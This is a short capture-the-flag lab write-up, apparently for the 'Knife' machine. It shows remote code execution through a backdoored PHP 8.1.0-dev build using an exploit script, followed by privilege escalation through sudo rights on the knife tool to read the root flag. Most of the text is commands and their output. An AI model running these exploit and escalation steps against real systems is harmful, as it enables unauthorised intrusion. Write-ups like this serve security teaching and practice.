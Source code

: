 ## Info

### Web 
- Apache 2.4.41
- PHP 8.1.0-dev

### System
#### `/opt`
- 


## Path
### User
1. After long~~~~ enum, I found PHP 8.1.0-dev has a backdoor, so use it to RCE.
```
python3 49933.py 
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ whoami
james
``` 
2. Get `user.txt`, then get James's private key to log on SSH.
### Root
1. We can run `knife` with `sudo`. After googling, we found we can use `knife` to execute command, so we can use it to gain root.
```
$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
2. Use `knife` to get root flag.
```
$ cat rev.rb
puts File.read("/root/root.txt")
$ sudo knife exec rev.rb
```
